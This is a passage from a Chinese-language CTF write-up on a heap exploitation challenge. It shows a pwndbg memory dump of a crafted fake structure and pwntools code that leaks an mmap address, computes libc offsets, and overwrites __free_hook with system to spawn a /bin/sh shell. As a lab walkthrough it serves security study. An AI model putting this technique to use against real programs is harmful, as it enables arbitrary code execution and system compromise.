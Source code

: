 其中的`'a' * 0x70`起填充作用，将地址填充到目标位置，可以多次调试来找出。

```
pwndbg> x/40gx 0x0000555555758280
0x555555758280:	0x0000000000000000	0x00000000000000d1
0x555555758290:	0x6161616161616161	0x6161616161616161#填充的起始
0x5555557582a0:	0x6161616161616161	0x6161616161616161
0x5555557582b0:	0x6161616161616161	0x6161616161616161
0x5555557582c0:	0x6161616161616161	0x6161616161616161
0x5555557582d0:	0x6161616161616161	0x6161616161616161
0x5555557582e0:	0x6161616161616161	0x6161616161616161
0x5555557582f0:	0x6161616161616161	0x6161616161616161
0x555555758300:	0x0000000000000001	0x0000555555758398 #fake_struct
0x555555758310:	0x0000555555758398	0x000000000000ffff #fake_struct
0x555555758320:	0x0000000000000000	0x0000000000000000
0x555555758330:	0x0000000000000000	0x0000000000000000
0x555555758340:	0x0000000000000000	0x0000000000000000
0x555555758350:	0x0000000000000000	0x0000000000000031
0x555555758360:	0x0000000000000001	0x0000555555758270 <= #book1
0x555555758370:	0x0000555555758290	0x00000000000000c8 <= #book1
0x555555758380:	0x0000000000000000	0x0000000000000031 <= #book1
0x555555758390:	0x0000000000000002	0x00007ffff7fbe010 <= #book2
0x5555557583a0:	0x00007ffff7f9c010	0x0000000000021000 <= #book2
0x5555557583b0:	0x0000000000000000	0x000000000001fc51 <= #book2
```

#### 5.计算libc基地址，freehook、system、/bin/sh地址

得到了book2_name2的地址就可以计算libc的基地址了，**上面book2_name的内容在mmap扩展的内存空间里。**

payload：

```python
p.sendline("4")
p.recvuntil("Name: ")
mmap_addr = u64(p.recv(6) + '\x00\x00')
```

通过调试得到libc和mmap分配的堆块之间的偏移是固定的，接下来可以使用book2_name_addr或者book2_desc_addr任意一个计算偏移，下面使用book2_name_addr计算偏移：

```
book2_name - libc_addr = 0x00007ffff7fbe010 -  0x7ffff79e2000 = 0x5dc010
```

或者直接这样：

```
libc_addr = 0x7ffff79e2000
```

在之后：

```python 
free_hook = libc.symbols["__free_hook"] + libc_addr
system = libc.symbols["system"] + libc_addr
binsh = libc.search("/bin/sh").next() + libc_addr

payload2 = p64(binsh) + p64(free_hook)
edit(1, payload2)
p.recvuntil("> ")
payload3 = p64(system)
edit(2,payload3)
p.recvuntil("> ")
delete(2)
```
